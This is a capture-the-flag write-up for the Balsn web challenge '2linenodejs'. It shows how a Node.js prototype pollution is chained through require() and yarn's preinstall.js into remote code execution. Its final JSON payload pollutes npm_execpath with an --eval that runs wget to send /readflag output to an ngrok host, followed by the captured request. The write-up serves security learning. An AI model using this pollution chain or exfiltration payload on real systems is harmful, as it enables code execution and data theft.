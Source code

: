 # 2linenodejs

## Description

Web | 13 solves

> Sorry for my bad coding style :(
>
> Author: ginoah

## Solution

### Prototype Pollution

Taking a look at the source, we see quite clearly that there is a prototype pollution here.

```javascript
#!/usr/local/bin/node
process.stdin.setEncoding('utf-8');
process.stdin.on('readable', () => {
  try{
    console.log('HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n');
    const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
    obj = JSON.parse(json);
    console.log(`JSON: ${json}, Object:`, require('./index')(obj, {}));
  }catch (e) {
    require('./usage')
  }finally{
    process.exit();
  }
});
```

`JSON.parse` will allow the `__proto__` key, storing it as `['__proto__']` instead (which surprisingly works as a key when used here:

```javascript
module.exports=(O,o) => (
    Object.entries(O).forEach(
        ([K,V])=>Object.entries(V).forEach(
            ([k,v])=>(o[K]=o[K]||{},o[K][k]=v)
        )
    ), o
);
```

Great! We have a prototype pollution - how do we leverage it to an RCE?

### require() Gadget

After performing the pollution, we don't have much of a choice where we want to go. Either nothing happens and `process.exit()` is called, or we cause an exception and `require('./usage')` is called. Causing an exception is pretty simple and I actually stumbled upon it early on when testing simple payloads.

If one of the key-value pairs is a mapping to `null`, then `Object.entries(V)` will yield a `TypeError` since `null` cannot be converted to an `Object`.

```javascript
        ([K,V])=>Object.entries(V).forEach(
                        ^

TypeError: Cannot convert undefined or null to object
```

If we look into the `internal/modules/cjs/loader.js`, we see that in the `trySelf` function, there is a [possible gadget](https://github.com/nodejs/node/blob/beb0520af74ed20c3d48a1b4f6ca8a89664976c6/lib/internal/modules/cjs/loader.js#L461).

If `readPackageScope` returns `false`, then the destructuring assignment should leave `pkg` and `pkgPath` as `undefined`, since the right-hand side is `{}`. But if we pollute `__proto__.data` and `__proto__.path`, then we can control `pkg` and `pkgPath`.

```javascript
function trySelf(parentPath, request) {
  if (!parentPath) return false;

  const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
  if (!pkg || pkg.exports === undefined) return false;
  if (typeof pkg.name !== 'string') return false;
```

But what is `pkg` and `pkgPath`? We could look at `readPackageScope` and find out that it calls&#x20;

[`readPackage`](https://github.com/nodejs/node/blob/beb0520af74ed20c3d48a1b4f6ca8a89664976c6/lib/internal/modules/cjs/loader.js#L308) to populate the result, and `readPackage` just reads the `package.json` file of a Node.js module.

```javascript
function readPackage(requestPath) {
  const jsonPath = path.resolve(requestPath, 'package.json');

  const existing = packageJsonCache.get(jsonPath);
  if (existing !== undefined) return existing;
  
  ...
```

So `pkg` appears to just be an object containing the [`package.json` fields](https://nodejs.org/api/packages.html#nodejs-packagejson-field-definitions) and `pkgPath` is the path to this package. Importantly, we see `pkg.exports` being used a lot in the subsequent code path, and this makes sence given the following explanation of `exports` in `package.json`:

> The `"exports"` field allows defining the [entry points](https://nodejs.org/api/packages.html#package-entry-points) of a package when imported by name loaded either via a `node_modules` lookup or a [self-reference](https://nodejs.org/api/packages.html#self-referencing-a-package-using-its-name) to its own name.&#x20;

With this knowledge, we can confirm that the following exploit allows us to load any JavaScript file.

```json
{
    "__proto__": {
        "data": {
            "name": "./usage",
            "exports": {
                ".": "./some-file.js"
            }
        },
        "path": "/some/path/to/file",
    },
    "x": null
}
```

### preinstall.js Gadget

Initially doing a simple search for all JavaScript files in the container (`find / -name "*.js" 2>/dev/null`), we can find `/opt/yarn-v1.22.19/preinstall.js`. Doing a bit of digging, we can find out that this script is added from [here](https://github.com/yarnpkg/yarn/pull/8343).

Immediately we see in this script that we have `child_process.execFileSync` being called, which looks promising.

```javascript
if (process.env.npm_config_global) {
    var cp = require('child_process');
    var fs = require('fs');
    var path = require('path');

    try {
        console.log(process.execPath, process.env.npm_execpath)
        var targetPath = cp.execFileSync(process.execPath, [process.env.npm_execpath, 'bin', '-g'], {
            encoding: 'utf8',
            stdio: ['inherit', 'inherit', 'inherit'],
        }).replace(/\n/g, '');
        process.exit()
```

First off, to reach this code path we could need to pollute `npm_config_global` to a truthy value.

`process.execPath` is always `/usr/bin/node`, and we can't control it. But we could control `process.env.npm_execpath` since it is not set by default. Looking at the [CLI documentation](https://nodejs.org/api/cli.html), the [`-e` or `--eval`](https://nodejs.org/api/cli.html#-e---eval-script) option looks promising! This would basically allow us to run inline JavaScript.

One issue is that because the regex matches up to the first space character, our JSON cannot have any spaces.

```javascript
const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
```

To get around this, we use `${IFS}`. For instance, we could pollute `npm_execpath` to `--eval=require('child_process').execSync('sleep${IFS}5')`.

The final payload was using `wget` and command substitution to exfiltrate the `/readflag` output.

```javascript
{
    "__proto__": {
        "data": {
            "name": "./usage",
            "exports": {
                ".": "./preinstall.js"
            }
        },
        "path": "./",
        "npm_config_global": 1,
        "npm_execpath": "--eval=require('child_process').execSync('wget${IFS}https://012c-49-245-33-142.ngrok.io/`/readflag`')"
    },
    "x": null
}
```

This gives us the flag on our listening HTTP server.

```http
GET /BALSN%7BPr0toTyP3_PoL1u7i0n_1s_so_Cooooooool%21%21%21%7D HTTP/1.1
Host: 012c-49-245-33-142.ngrok.io
User-Agent: Wget
X-Forwarded-For: 44.204.208.69
X-Forwarded-Proto: https
Accept-Encoding: gzip
```
